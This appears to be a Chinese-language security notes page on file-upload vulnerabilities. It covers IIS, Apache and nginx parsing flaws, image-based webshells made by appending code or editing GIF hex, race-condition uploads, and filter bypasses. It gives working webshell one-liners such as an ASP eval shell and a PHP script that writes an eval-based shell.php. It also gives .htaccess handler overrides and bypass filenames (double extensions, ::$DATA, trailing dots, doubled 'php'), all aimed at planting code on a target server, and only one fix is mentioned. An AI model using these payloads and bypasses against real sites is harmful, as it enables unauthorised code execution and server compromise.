 # IIS文件解析漏洞



IIS使用最多的版本：

- winServer2003内置的`IIS6.0`
- winServer2008内置的 `IIS7.0`
- `IIS7.5` 
- winServer2016内置的`IIS10`

IIS6.0 默认配置： 

- `asa` `cdx` `cer` 都能当作asp解析

- 文件名`hack.asp;.jpg`会被当作asp解析
- 路径`hack.asp/1.jpg`会被当作asp解析

- `asmx`能当作aspx

asp一句话

```asp
<%eval request('a')%>
```





# apache

## 后缀解析漏洞

Apache从右往左判断后缀名，当Apache无法识别后缀名时，则往左跳下一个，可借助abcde绕过检测`shell.php.abcde`




# nginx和IIS的cgi解析漏洞

`xxx/1.jpg/.php`会被当作一个php传给cgi处理



修复方案



将php.ini `cgi.fix_pathinfo`设置为`0`重启php-fpm即可

# 制作图片马

## jpg追加法

准备图片素材与一句话木马

`1.jpg` `1.gif` `hack.php`

### linux

```bash
cat 1.jpg hack.php > hack.jpg
```

### windows

参数b(指binary)

若只是普通文本文件合并，也可使用参数a(指ASCII)

```bash
copy/b 1.jpg + hack.php hack.jpg 
```

- 同样方法也可将多个m3u8视频拼接转换成mp4
- 拼接多个mp3可连续播放多条音频

## gif隐写(推荐)

### 简介

gif文件中定义了很多种信息块的格式，头部包含最多关键信息，如全局颜色表、画面比例等，受服务器二次渲染影响比较小

仅替换头部信息，可降低二次渲染后内容被重置的概率

### 工具准备

- [HexFiend(mac)](https://github.com/HexFiend/HexFiend/releases/tag/v2.14.1)
- [EverEdit(windows)](http://cn.everedit.net/)
- [winHex(windows)](http://www.x-ways.net/winhex/)
- [字符串hex互转在线工具](https://tool.lu/hexstr/)

#### linux/mac可直接使用vim+xdd

执行命令：`vim -b 1.gif` 参数`-b`(打开一个binary文件,不指定参数会在后面出现一个换行符`0x0a`)

然后在vim命令模式下调用系统xxd转换命令：`:%!xxd`

!> vim中只能通过修改hex来改变值，不要修改地址和后面的ascii码，**且保存前要记得输入`:%!xxd -r`转回ascii模式**

> 只是查看hex的话，可在shell中使用xxd命令 `xxd 1.gif | less`

### 动手试一试吧

> **本次测试使用的图片**
> 
> ![boji](img/网络安全_文件上传漏洞__img_boji.gif)

- 使用编辑工具打开gif图片

![img.png](img/网络安全_文件上传漏洞__img_gifhexop.png)

- 避开前13个字节
- 避开`21FF___00`，这是应用程序扩展
- 避开`21F9___00`，这是图形控制扩展
- 避开`2C00000000___00`，这是图像描述符
- [点击查看gif文件存储结构](/其他/gif文件存储结构)


![img_2.png](img/网络安全_文件上传漏洞__img_gifhexavoid.png)

- 尝试替换部分内容（是替换不是新增）

- 测试图片是否可打开

![img.png](img/网络安全_文件上传漏洞__img_gifhexcode.png)

- 将图片上传到目标站点，下载响应过来的图片，查看数据是否被二次渲染破坏

> 当一处长度不足以输入所有代码时，灵活应用注释在多处拼接代码


# 条件竞争

## 服务器先复制文件后验证

流程：服务器先把文件从temp复制到存储区->验证文件合法性->验证不通过则删除

可以在文件被删除之前，让恶意文件生成子文件逃脱控制

parent.php

```php
<?php 
    file_put_contents('shell.php','<?php eval($_REQUEST[8]);?>');
    echo "success!";
?>
```

上传一个正常的文件，得到文件的存储路径`http://xxx.com/uploads/1.jpg`

### 使用burp跑包功能

- 将上传包和访问文件包`http://xxx.com/uploads/parent.php`发送到Intruder





# 文件上传漏洞1

### 测试1：假设仅前端验证

- burp抓包修改文件后缀


### 测试2：假设只判断http头的mime类型

- burp抓包修改Content-Type为允许的格式[mime类型](/其他/mime.json)

### 测试3：后端黑名单禁止上传 php,asp,jsp,aspx

- burp抓包测试文件后缀 php3 php4 php5 phtml PHP PHp PhP Php pHP pHp

### 测试4：`.htaccess`是否可上传

!> 容易导致服务出现异常，建议先尝试上传Content-Type + 自创后缀名

```
Addtype application/x-httpd-php .jpg
```

或者

```
<FilesMatch "shell.jpg"> SetHandler application/x-httpd-php
```

### 测试5：后缀加空格` `或`.`绕过检测
`a.php ` `a.php.`

### 测试6：::$DATA（Windows NTFS文件流绕过）
`a.php::$DATA`

### 测试7：构建后缀替死鬼

后端前后去空、删除结尾处`.`的情况

`1.php. .`
`1.php . `
`1.php.. `

### 测试8：双写法

```php
// 文件名存在黑名单中的后缀名则替换为空
$filename = str_ireplace(['php','php2','php3','php4','phtml'],"", $filename);
```
ph**php**p  替换php为空后，前面的`ph`与后面的`p`结合为`php`




